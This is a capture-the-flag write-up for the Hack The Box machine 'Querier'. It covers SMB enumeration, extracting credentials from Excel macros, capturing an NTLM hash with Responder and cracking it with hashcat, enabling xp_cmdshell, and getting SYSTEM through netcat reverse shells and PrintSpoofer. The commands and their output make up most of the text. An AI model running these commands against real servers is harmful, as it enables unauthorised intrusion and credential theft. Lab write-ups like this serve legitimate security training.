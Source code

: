 ```yaml
---
title: "HTB Querier"
permalink: /writeups/querier
location: default
---
```


# HTB Querier

**Machine Information**

	IP : 10.10.10.125
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.125 -- -sC -sV
```

This should reveal multiple open ports: `135`, `139`, `1433` and `5985`.

```
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: QUERIER
|   DNS_Domain_Name: HTB.LOCAL
|   DNS_Computer_Name: QUERIER.HTB.LOCAL
|   DNS_Tree_Name: HTB.LOCAL
|_  Product_Version: 10.0.17763
|_ssl-date: 2022-10-04T10:04:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-10-04T09:22:11
|_Not valid after:  2052-10-04T09:22:11
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-04T10:04:14
|_  start_date: N/A
```

### Getting a Foothold

**SMB**

Checking SMB shares without any credentials will show a share called `Reports`.

```
smbclient -N -L 10.10.10.125
```

Connect to this share.

```
smbclient -N \\\\10.10.10.125\\Reports
```

There should be a file called `Currency Volume Report.xlsm`, download it.

```
get "Currency Volume Report.xlsm"
```

This file has macros enabled and after opening with `libreoffice` nothing can be extracted. Using `olevba` we can extract the macros from the file. This tool can be downloaded from the following repository.

<https://github.com/decalage2/oletools>

```
olevba "Currency Volume Report.xlsm"
```

**MSSQL**

There are credentials in the macros output that we can use. They point to an MSSQL server that we saw open in the port scan output. With these credentials we can use `impacket-mssqlclient` to connect to the targets MSSQL server.

```
impacket-mssqlclient reporting@10.10.10.125 -windows-auth
```

We are unable to use the `xp_cmdshell` command, but we can try to extract the `NTLM` hash. Start responder to intercept hashes.

```
sudo responder -I tun0
```

Enter the following command to catch the NTLM hash in our responder.

```
xp_dirtree \\10.10.14.28\test
```

The NTLM hash should get intercepted and we can use `hashcat` to crack it.

```
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

With new credentials we can sign in as `mssql-svc` to the MSSQL server.

```
impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth
```

We still can't run `xp_cmdshell` but it gives us a hint to enable it.

```
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

After a bit of research I found a way to enable this command.

```
sp_configure 'xp_cmdshell', '1'
```

```
RECONFIGURE
```

```
EXEC master..xp_cmdshell 'whoami'
```

Success!

```
querier\mssql-svc
```

Once enabled we can run commands so we will try for a reverse shell. Start by launching an SMB server which hosts a `netcat` executable

```
sudo mkdir /tmp/smb
sudo cp nc.exe /tmp/smb/
sudo impacket-smbserver share /tmp/smb -smb2support
```

Start a `netcat` listener and run the following command.

```
xp_cmdshell \\10.10.14.4\share\nc.exe 10.10.14.4 9001 -e cmd.exe
```

Success!

```
C:\Windows\system32>whoami
querier\mssql-svc
```

The user flag can be found in the following directory:

```
C:\Users\mssql-svc\Desktop\user.txt
```

### Privilege Escalation

Running the command `whoami /priv` will show the `SeImpersonatePrivilege` token is enabled. Since our machine is running Windows Server 2019, then we can use `PrintSpoofer.exe`

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Copy both `PrintSpoofer64.exe` and `nc.exe` to the target machine using our SMB server. With both executables on the machine setup another `netcat` listener and run the following command to get an escalated reverse shell.

```
.\PrintSpoofer64.exe -c ".\nc.exe 10.10.14.4 443 -e cmd"
```

Success!

```
C:\Windows\system32>whoami
nt authority\system
```

We can now grab the root flag from the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
